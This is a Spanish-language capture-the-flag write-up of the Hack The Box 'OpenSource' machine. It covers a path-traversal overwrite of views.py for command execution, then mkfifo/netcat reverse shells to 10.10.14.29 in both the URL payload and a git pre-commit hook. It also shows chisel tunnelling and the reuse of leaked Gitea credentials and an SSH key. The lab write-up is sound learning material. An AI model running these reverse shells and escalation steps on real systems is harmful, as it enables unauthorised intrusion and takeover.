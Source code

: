 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | OpenSource         |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 20                 |
| IP                     | 10.10.11.164       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/OpenSource/scan1.png)

Fuzzing

```s
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/wfuzz/webservices/ws-files.txt http://10.10.11.164/uploads/FUZZ
```

Podemos descargarnos el codigo fuente de la aplicacion, tambien vemos que no revisa que el archivo ya existe. Asi que intentaremos reemplazar views.py con las lineas siguientes:

![Scan 1](/assets/images/OpenSource/code_modificado.png)

Procedemos a usar burpsuite, para modificar el response del post. Cambiamos el nombre del archivo a ..//app/app/views.py y de esta manera, lo habremos puesto donde esta el original, pero con una funcion extra que nos permitira ejecutar los comandos que queramos. Y ahora podremos ejecutar comandos de cmd con:

_http://opensource.htb/exec?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fsh%20-i%202%3E%261|nc%2010.10.14.29%204444%20%3E%2Ftmp%2Ff_

http://opensource.htb/exec?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fsh%20-i%202%3E%261|nc%2010.10.14.29%204444%20%3E%2Ftmp%2Ff

![Shell to Docker container](/assets/images/OpenSource/reverse_shell.png)

Con un ifconfig, vimos que tenemos una interfaz extrana, la cual significara que estamos en un docker container. Una vez dentro, listaremos las demas maquinas a las que tenemos acceso.

```s
for i in $(seq 1 254); do (ping -c 1 172.17.0.$i | grep "bytes from"&); done
```

![Neighbors](/assets/images/OpenSource/other_machines.png)

En este punto vamos a usar una herramienta llamada <a href="https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz">chisel</a> para hacer el port forwarding con el contenedor que tenemos enfrente y esta permitido para usarlo en el OSCP.

Asi que lo primero seria descomprimirlo, luego quitarle peso con upx y abrir nuestro servidor http con python para descargarlo del otro lado. 

La maquina tiene wget, pero no pude descargarme de mi maquina el chisel por error de existencia. La manera mas facil fue cargar en la app el chisel y despues navegar dentro de el
Y al final desde el contenedor ejecutamos:

```s
#Le damos permisos
chmod +x chisel
Local: ./chisel_1.7.7_linux_amd64 server --reverse -p 1234
Target:./chisel_1.7.7_linux_amd64 client 10.10.14.29:1234 R:socks
```

Ahora que tenemos acceso localmente a lo mismo que la otra maquina, podemos escanear sus puertos ahora con un:

```s
proxychains nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.1
sudo nmap -sCV -p3000 172.17.0.1 -oN targeted
```

![Scan 4 nmap](/assets/images/OpenSource/nmap4.png)

Ahora que configuramos el proxy tambien en nuestro navegador, tenemos acceso a la interfaz web

![Gitea](/assets/images/OpenSource/gitea.png)

De acuerdo con las credenciales que encontramos hace rato en el otro repositorio, podemos entrar ahora dev01:Soulless_Developer#2022. Una vez dentro encontramos un repo que se llama backup y dentro tiene un directorio .ssh con un id_rsa que podemos usar para acceder a la otra maquina.

![Gitea backup](/assets/images/OpenSource/backup_gitea.png)

De igual forma, nos copiamos este id_rsa, le asignamos el permiso 600 y con proxychains nos conectamos a la ip 172.17.0.1, exportamos nuestras configuraciones de shell

```s
export TERM=xterm
export SHELL=bash
```

En este punto tambien podemos ya ver la flag.

![dev01 access](/assets/images/OpenSource/dev01_access.png)

Dentro tenemos las herramientas para escalar privilegios, asi que encontramos una brecha en el precomit

Asi que nos vamos a editar el archivo ~/.git/hooks/pre-commit.sample, dentro le ponemos la linea:

```s
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 443 >/tmp/f
```

lo guardamos como pre-commit

ahora solo tenemos que iniciar un proyecto en una carpeta nueva y le agregamos un archivo con cualquier contenido.

Hacemos nuestro repositorio de git como normalmente se hace:

```s
git init
git add .
git commit
```
Dentro del archivo commit lo dejamos limpio y nos ponemos en escucha en nuestra maquina. Guardamos el archivo y tendremos nuestra shell ahora.

![root](/assets/images/OpenSource/root.png)

![Powned](/assets/images/OpenSource/powned.png)
